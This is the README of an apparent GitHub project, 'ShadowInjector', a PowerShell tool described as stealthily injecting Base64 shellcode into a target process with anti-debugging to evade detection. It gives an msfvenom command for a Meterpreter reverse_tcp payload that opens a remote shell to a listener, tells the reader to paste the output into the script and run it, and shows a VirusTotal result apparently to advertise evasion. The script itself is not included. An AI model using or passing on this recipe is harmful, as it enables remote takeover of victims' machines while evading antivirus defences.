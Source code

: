 # ShadowInjector
A sophisticated PowerShell script that stealthily injects Base64-encoded shellcode into the target process, featuring anti-debugging techniques to evade detection.



## Running the Script
You can create the malicious payload as follows.

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port -f csharp

![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Creating%20a%20payload.png)

Add the generated code to the "add_shell_code_here" section in the script.

To run the script, open a PowerShell window and execute the following command:

.\ShadowInjector.ps1
![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Run%20Script.png)

![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Listening.png)

## Virustotal Result
![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/virustotal.png)


